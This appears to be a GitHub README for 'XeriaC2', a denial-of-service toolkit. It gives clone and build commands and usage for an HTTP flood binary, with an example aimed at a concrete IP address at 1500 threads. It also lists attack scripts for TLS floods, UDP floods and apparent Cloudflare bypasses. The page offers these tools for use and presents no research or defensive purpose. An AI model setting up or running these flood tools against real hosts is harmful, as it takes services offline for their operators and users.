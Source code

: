 ## How To Install : 

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

python xeriac2.py

## Wanna Update Method?
remove file XeriaC2
Open Terminal
Paste :

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


## Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

python udp.py

python UDP.py

./http

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
